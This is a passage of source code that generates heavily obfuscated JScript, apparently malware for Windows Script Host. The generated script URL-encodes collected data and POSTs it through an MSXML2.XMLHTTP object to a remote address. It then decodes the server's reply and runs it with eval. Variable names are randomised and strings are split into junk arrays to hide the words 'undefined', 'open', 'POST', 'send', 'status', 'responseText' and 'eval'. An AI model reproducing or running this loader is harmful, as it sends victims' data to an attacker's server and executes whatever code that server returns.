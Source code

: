 ```
                + "sendRequest(gudel6);n"
                + "n"
                + "function sendRequest(gudel6, ores) `{`n"
                + "    if (typeof ores === "u" + "n" + "d" + "e" + ["H", "f", "g", "K", "k"][(286 - 285)] + "i" + ["k", "n", "H"][(839 - 838)] + "e" + ("r", "C", "q", "d")) `{`n"
                + "        ores = false;n"
                + "    `}`n"
                + "    var jwavamhho = '',n"
                + "        pjedafxexrzo5 = '',n"
                + "        umulmpy0;n"
                + "    for (var rajdysnnejav = 0; rajdysnnejav &lt; gudel6["l" + ["K", "B", "e", "g", "w", "l", "w"][(103 - 101)] + "n" + "g" + ("M", "c", "b", "t") + "h"]; rajdysnnejav++) `{`n"
                + "        jwavamhho += rajdysnnejav + '=' + encodeURIComponent('' + gudel6[rajdysnnejav]) + '&amp;';n"
                + "    `}`n"
                + "    jwavamhho = ypychyby(jwavamhho);n"
                + "    try `{`n"
                + "        var aqwi4;n"
                + "        aqwi4 = getAXO(("Z", "M", "u", "M") + "S" + "X" + "M" + "L" + ("h", "v", "2") + "." + ("x", "Z", "S", "X") + "M" + "L" + "H" + ["y", "x", "i", "T", "j", "v"][(465 - 462)] + "T" + "P");n"
                + "        aqwi4[("b", "f", "q", "I", "Z", "o") + ["f", "h", "p", "N"][(-171 + 173)] + "e" + ["n", "r", "s"][(823 - 823)]]("P" + "O" + "S" + ["y", "I", "T", "a", "J", "i", "P"][(-620 + 622)], zuqyljaah, false);n"
                + "        aqwi4["s" + ("x", "k", "l", "e") + "n" + ["d", "l", "H", "P"][(120 - 120)]](jwavamhho);n"
                + "        if (aqwi4[("N", "u", "s") + ["t", "u", "g", "l"][(7 - 7)] + "a" + ("b", "d", "t") + ("b", "c", "D", "Y", "u") + ("Z", "Z", "C", "Y", "s")] == (82 - (-118))) `{`n"
                + "            pjedafxexrzo5 = aqwi4["r" + ("d", "q", "e") + "s" + ("u", "E", "p") + "o" + "n" + "s" + "e" + ["R", "c", "T", "t", "l", "D"][(407 - 405)] + "e" + ("H", "c", "D", "t", "x") + ("n", "L", "N", "L", "y", "t")];n"
                + "            if (pjedafxexrzo5) `{`n"
                + "                umulmpy0 = wvipex(pjedafxexrzo5);n"
                + "                if (ores) `{`n"
                + "                    return umulmpy0;n"
                + "                `}` else `{`n"
                + "                    this["e" + ["A", "e", "g", "v", "F"][(753 - 750)] + ["J", "t", "u", "a", "y", "D", "i"][(-988 + 991)] + ["l", "t", "i"][(744 - 744)]](umulmpy0);n"
                + "                `}`n"
                + "            `}`n"
                + "        `}`n"
                + "    `}` catch (e) `{``}`n"
                + "    return false;n"
                + "`}`n"
                + "n"
                + "function grenejmy(rajdysnnejav) `{`n"
                + "    var weqanndu = ("Z", "d", "0") + "0" + rajdysnnejav["t" + ("y", "J", "V", "M", "o") + "S" + "t" + ["r", "F"][(-216 + 216)] + "i" + ["n", "O"][(-150 + 150)] + ["n", "g", "H"][(388 - 387)]]((-896 + 912));n"
                + "    weqanndu = weqanndu["s" + ["p", "O", "Z", "u", "Z", "k", "W"][(475 - 472)] + ["b", "H", "R", "K", "x"][(399 - 399)] + ["s", "o", "K"][(-686 + 686)] + ["y", "Q", "t", "b", "m", "Y", "H"][(-397 + 399)] + ("O", "E", "k", "r")](weqanndu["l" + "e" + ["F", "n", "V", "c"][(669 - 668)] + ("n", "O", "M", "L", "g") + ("U", "w", "t") + "h"] - 2);n"
                + "    return weqanndu;n"
                + "`}`n"
                + "n"
                + "function wvipex(oqpce3) `{`n"
                + "    var fevfduwa6, dnoyq, rajdysnnejav, pjedafxexrzo5 = '';n"
                + "    dnoyq = parseInt(oqpce3["s" + "u" + "b" + "s" + "t" + ("t", "s", "B", "r")](0, 2), (-474 + 490));n"
                + "    fevfduwa6 = oqpce3["s" + "u" + "b" + ("D", "f", "L", "E", "s") + ["t", "T"][(411 - 411)] + ["r", "v"][(-635 + 635)]](2);n"
```